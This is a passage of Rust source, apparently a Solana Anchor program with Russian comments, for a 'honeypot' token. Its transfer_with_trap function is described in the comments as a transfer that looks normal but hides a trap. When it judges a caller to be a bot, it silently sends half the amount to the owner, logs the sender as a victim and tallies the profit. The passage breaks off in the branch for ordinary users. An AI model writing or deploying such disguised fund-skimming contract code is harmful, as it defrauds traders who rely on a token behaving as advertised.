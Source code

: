 ```rust
                MintTo {
                    mint: ctx.accounts.mint.to_account_info(),
                    to: ctx.accounts.owner_token_account.to_account_info(),
                    authority: ctx.accounts.mint_authority.to_account_info(),
                },
                &[&mint_authority_seeds]
            ),
            initial_supply,
        )?;
        
        msg!("🍯 Honeypot token created with {} supply", initial_supply);
        Ok(())
    }
    
    // Функция которая выглядит как обычный transfer, но содержит ловушку
    pub fn transfer_with_trap(
        ctx: Context<TransferWithTrap>,
        amount: u64,
    ) -> Result<()> {
        let honeypot = &mut ctx.accounts.honeypot_token;
        
        // Проверяем если это бот (по паттернам поведения)
        if Self::is_bot_transaction(&ctx)? {
            msg!("🤖 Bot detected! Activating trap...");
            
            // Вместо обычного transfer, забираем комиссию
            let bot_fee = amount * 50 / 100; // 50% комиссия для ботов!
            let actual_transfer = amount - bot_fee;
            
            // Переводим комиссию владельцу
            token::transfer(
                CpiContext::new(
                    ctx.accounts.token_program.to_account_info(),
                    Transfer {
                        from: ctx.accounts.from.to_account_info(),
                        to: ctx.accounts.owner_account.to_account_info(),
                        authority: ctx.accounts.authority.to_account_info(),
                    },
                ),
                bot_fee,
            )?;
            
            // Переводим остаток получателю
            token::transfer(
                CpiContext::new(
                    ctx.accounts.token_program.to_account_info(),
                    Transfer {
                        from: ctx.accounts.from.to_account_info(),
                        to: ctx.accounts.to.to_account_info(),
                        authority: ctx.accounts.authority.to_account_info(),
                    },
                ),
                actual_transfer,
            )?;
            
            // Записываем жертву
            honeypot.bot_victims.push(ctx.accounts.authority.key());
            honeypot.collected_profit += bot_fee;
            
            msg!("💰 Collected {} fee from bot", bot_fee);
            
        } else {
            // Обычный transfer для людей
```